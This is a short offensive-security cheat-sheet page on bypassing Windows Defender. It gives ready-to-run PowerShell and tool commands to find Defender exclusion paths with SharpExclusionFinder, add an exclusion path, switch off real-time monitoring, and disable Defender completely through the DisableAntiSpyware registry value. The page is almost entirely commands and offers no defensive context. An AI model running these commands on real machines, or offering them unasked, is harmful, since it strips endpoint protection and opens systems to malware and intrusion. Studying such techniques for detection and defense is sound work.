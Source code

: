 ```yaml
---
title: "Windows Defender"
date: 2025-7-24
tags: ["Bypass", "Defender", "AV", "Anti-Virus", "Windows"]
---
```


### Check Exclusion Path

```console
.\SharpExclusionFinder.exe '<PATH>'
```

<small>*Ref: [SharpExclusionFinder](https://github.com/Friends-Security/SharpExclusionFinder)*</small>

### Add Exclusion Path

```console
Add-MpPreference -ExclusionPath '<PATH>'
```

### Disable Defender

{{< tab set1 tab1 >}}powershell{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
# Disable realtime monitoring
Set-MpPreference -DisableRealtimeMonitoring $true
```

```console
# Completely disable defender
New-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender" -Name DisableAntiSpyware -Value 1 -PropertyType DWORD -Force
```

{{< /tabcontent >}}
